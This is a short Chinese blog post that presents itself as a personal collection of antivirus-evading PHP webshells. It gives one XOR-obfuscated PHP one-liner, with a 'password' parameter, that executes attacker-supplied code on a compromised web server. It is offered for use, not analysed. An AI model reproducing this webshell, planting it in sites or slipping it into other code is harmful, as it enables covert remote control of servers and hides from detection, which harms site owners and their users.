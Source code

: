 ```yaml
---
layout: mypost
title: 免杀php马
categories: [马]

---
```


这里累计收集一些比较好用的大、小马备用

php免杀一句话

< php7.1可用， 密码1可改

```php
<?  @("Y;HJ(Z"^"8H;/Z.")(${"~?}$"^"!x8p"}[1]);
```

